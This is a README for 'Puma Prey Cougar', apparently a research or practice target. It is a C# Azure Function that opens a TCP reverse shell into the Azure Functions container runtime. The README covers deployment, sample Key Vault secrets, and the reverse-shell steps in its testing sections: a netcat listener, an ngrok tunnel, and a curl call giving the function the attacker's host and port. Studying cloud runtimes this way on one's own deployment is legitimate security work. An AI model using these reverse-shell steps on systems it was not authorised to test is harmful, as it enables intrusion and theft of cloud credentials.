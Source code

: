 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

NOTE: This needs work to deploy assets, etc.

```bash
cd src
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
az login
terraform apply
```

* TODO: Upload cougar.png to the images blob.
* TODO: Needs to create an identity and attach the function to the service principal created.
* TODO: Grant read, container read to the blob created.

## Deploying Assets

Create some secrets and grant permissions to the function SA.

```
az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-user" --value "cougar_user"

az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-pass" --value "QnV0IHVuaWNvcm5zIGFwcGFyZW50bHkgZG8gZXhpc3Qu"

az keyvault set-policy --name pumaprey-cougar-vault -g pumaprey-cougar --object-id 0cbd41de-55c6-460d-b92b-837eddd0ea0d --secret-permissions get list
```

## Testing in Azure

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cougar --url-id "cougar$TF_VAR_UniqueString" --api-key YOUR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
